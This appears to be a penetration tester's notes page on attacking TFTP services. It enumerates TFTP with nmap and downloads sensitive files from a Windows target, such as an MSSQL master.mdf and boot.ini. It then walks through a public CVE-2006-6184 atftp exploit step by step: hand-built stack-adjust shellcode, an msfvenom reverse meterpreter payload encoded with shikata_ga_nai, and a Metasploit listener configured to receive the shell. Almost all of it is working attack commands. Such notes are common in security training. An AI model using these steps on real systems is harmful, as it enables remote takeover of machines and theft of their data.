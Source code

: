 ```yaml
---
category: Uncategorized
tags: []
---
```


```bash - kali
sudo nmap -sU -p69 --script tftp-enum $TARGET
```

#### tftp.py

```bash - kali
pip install tftpy
```

```python - kali
import tftpy
client = tftpy.TftpClient("$KALI", 69)
client.download("C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf", "/home/kali/Desktop/$TARGET/master.mdf", timeout=5)

#client.upload("filename to upload", "/local/path/file", timeout=5)
```

#### atftp
```bash - kali
sudo apt install atftp
```

```bash - kali
atftp -g -r "C:\boot.ini" $TARGET
```

If you are after a path that has spaces, try using [[Abbreviated dir]]'s.

https://github.com/shauntdergrigorian/cve-2006-6184/blob/master/atftp.py

==READ THE EXPLOIT STEPS VERY CAREFULLY!!==

1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```bash - kali
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```

2.) Next, use the following command to create a staged meterpreter shell payload:
```bash - kali
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```

3.) Then, combine the two files you just created.
```bash - kali
cat stackadj payload > shellcode
```

4.) Finally, let's eliminate the bad characters.
```bash - kali
msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
```

Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.

![[Pasted image 20220406211356.png | 1200]]

#### Metasploit Listener

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set PAYLOAD windows/meterpreter/reverse_nonx_tcp
```

```bash - kali
set ExitOnSession false
```

```bash - kali
set AutoRunScript post/windows/manage/migrate
```

```bash - kali
set lhost
```

```bash - kali
set lport
```

```bash - kali
exploit -j
```

```bash - kali
python atftp.py $TARGET 69 $KALI $OS-VERSION
```
